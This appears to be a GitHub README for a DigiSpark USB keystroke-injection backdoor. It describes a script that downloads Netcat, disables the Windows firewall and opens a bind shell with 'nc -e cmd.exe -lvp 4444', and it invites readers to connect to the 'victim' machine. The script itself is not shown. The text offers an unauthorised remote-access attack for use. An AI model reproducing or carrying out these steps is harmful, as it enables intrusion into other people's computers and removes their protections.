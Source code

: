 # DigiSparkNetcatBackDoor
#A simple backdoor with Netcat fired by this DigiSpark key stroke injection.


#How to use?
-Coppy the code into Arduino IDE and then upload it to DigiSpark.


#What is this script doing?
-Downloads Netcat into the download folder of the logged user;
-Unzip the Netcat program to "C:\";
-Disable Firewall;
-And then run an instance of Netcat with parameters: "nc -e cmd.exe -lvp 4444";

Now you're free to connect to tve victim Windows machine via port 4444(or vhatever port u choose)


#The execution time for this attack is somewere in between 20 to 40 seconds(so pretty much a lot of time).
It needs some improvements so contact me if you wanna help!(I'm a beginner)

I'm waiting for your feedback!!!
